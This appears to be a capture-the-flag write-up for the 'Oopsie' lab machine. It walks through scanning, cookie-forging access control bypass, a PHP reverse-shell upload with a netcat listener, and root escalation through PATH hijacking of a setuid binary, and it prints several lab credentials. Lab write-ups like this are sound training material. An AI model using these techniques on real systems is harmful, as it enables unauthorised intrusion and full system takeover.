


# Oopsie

- Target machine: 10.10.10.28

## nmap scan

```bash
# Nmap 7.91 scan initiated Wed Sep  1 18:50:10 2021 as: nmap -sC -sV -Pn -oN nmap/initial -vv 10.10.10.28
Nmap scan report for 10.10.10.28
Host is up, received user-set (0.042s latency).
Scanned at 2021-09-01 18:50:24 CEST for 9s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDxxctowbmnTyFHK0XREQShvlp32DNZ7TS9fp1pTxwt4urebfFSitu4cF2dgTlCyVI6o+bxVLuWvhbKqUNpl/9BCv/1DFEDmbbygvwwcONVx5BtcpO/4ubylZXmzWkC6neyGaQjmzVJFMeRTTUsNkcMgpkTJXSpcuNZTknnQu/SSUC5ZUNPdzgNkHcobGhHNoaJC2StrcFwvcg2ftx6b+wEap6jWbLId8UfJk0OFCHZWZI/SubDzjx3030ZCacC1Sb61/p4Cz9MvLL5qPYcEm8A14uU9pTUfDvhin1KAEEDCSCS3bnvtlw1V7SyF/tqtzPNsmdqG2wKXUb6PLyllU/L
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLaHbfbieD7gNSibdzPXBW7/NO05J48DoR4Riz65jUkMsMhI+m3mHjowOPQISgaB8VmT/kUggapZt/iksoOn2Ig=
|   256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLh0LONi0YmlZbqc960WnEcjI1XJTP8Li2KiUt5pmkk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Found services

- PORT 22: SSH
- PORT 80: Apache Server

## Webserver directory enumeration

### Using Gobuster

```
[exyss@exyss Oopsie]$ gobuster dir --url 10.10.10.28 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -o gobuster/dir-enumeration.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/01 20:20:31 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.28/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.28/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/index.php            (Status: 200) [Size: 10932]                               
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.28/js/]    
/server-status        (Status: 403) [Size: 276]                                 
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/]
                                                                                 
===============================================================
2021/09/01 20:20:51 Finished
===============================================================
```

### Using BurpSuite

Since Gobuster seems to not have found any interesting directory, we can use BurpSuite as a web-spider, finding directories that we could miss (we're still humans after all) while using `view-source` in the browser.



As we can see, we have a suspicious web-page in `http://10.10.10.28/cdn-cgi/login/`.
If we open it in a browser, we get a login form.

As we can see from this website's home page, this machine seems to be hosting the MegaCorp website. Since MegaCorp was also the name of owner of the previous challenge's target machine, we can try logging in with the very common username `admin` and the admin password found in the previous challenge `MEGACORP_4dm1n!!`

## Super-Admin access

As we can see from exploring the page Uploads `http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads`, we need super-admin priviledges. By looking at the last sent request in the BurpSuite logger, every time we try to send a request we also send two cookies, one with our Access ID and one with our account role.

If we try to access the page Account, the URL changes to `http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1`. As we can see, the GET parameter "id" is passed to the request. We can write a [python script](scripts/bruteforce.py) to bruteforce this value and find the ID of an user with higher priviledges.

After running the script, we find out a super admin account with the GET request ID 30. We can manually send a request with the found ID (`http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=30`) to find out the Access ID of this user, which is `86575`.



We can now activate the BurpSuite interceptor, try to access the Upload web page and manually change value of the cookie sent to the server with the super admin Access ID.

## Obtaining a reverse shell

Once we execute the last step, we get prompted with a file upload form, which probably doesn't check for file extentions, meaning we can send a php script instead of an image.
We can now try to upload a [php reverse shell](scripts/revshell.php), which will bounce back to our netcat server. (remember to change the script with your ip and port).

After uploading the script, we have to start our netcat server with `netcat -lvnp 1234` and then run `curl http://10.10.10.28/uploads/revshell.php` to get our reverse shell. The flag can be found in the folder `/home/robert/user.txt`

## Logging in as Robert

Checking through the website files in the directory `/var/www/html/`, we can access the subdirectory `cdn-cgi/login` to find a file containg some MySQLi DBMS access credentials regarding the user Robert.

```bash
$ pwd
/var/www/html/cdn-cgi/login

$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Since the same password is also used on the target machine, we can use these credentials to login as Robert by running `su robert`.
__ATTENTION__: you probably need to spawn a TTY terminal before running this command. You can fix this by running `/usr/bin/script -qc /bin/bash /dev/null`

## Priviledge escalation

By running `id` we can see that Robert is in a group called `bugtracker`. We can search for files and folders accessible only to users within this group using the command `find / -group bugtracker`, skipping every error and/or permission denied message by redirecting the error output with `2> /dev/null`

```bash
robert@oopsie:/$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)

robert@oopsie:/$ find / -group bugtracker 2> /dev/null            
find / -group bugtracker 2>/dev/null 
/usr/bin/bugtracker

robert@oopsie:/usr/bin$ ls -la /usr/bin/bugtracker
ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

robert@oopsie:/$ 
```

As we can see, there is a program called bugtracker with the setuid option turned on (-rwsr-xr--), meaning that the program will be run as root even when executed by normal users.

Using `strings bugtracker` we can see that the program runs `cat /root/reports` while executing the bugtracking program. Since the cat program is called using a relative path and not an absolute path, we can create a fake cat program in the /tmp folder that spawns a shell, which will be spawn as root due to the temporary priviledge elevation given by the setuid option.

```bash
robert@oopsie:/usr/bin$ export PATH=/tmp:$PATH

robert@oopsie:/usr/bin$ cd /tmp/

robert@oopsie:/tmp$ echo '/bin/sh' > cat

robert@oopsie:/tmp$ chmod +x cat

robert@oopsie:/tmp$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

root@oopsie:/tmp# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)

root@oopsie:/tmp# 
```

Now we have full access to the machine. The root flag can be found in the `/root` folder
__ATTENTION__: remember that we have created a fake cat program, so you must run `/bin/cat` in order to see the flag

__BONUS NOTE__: inside the root folder there is also a `.config` file containg the credentials `ftpuser / mc@F1l3ZilL4`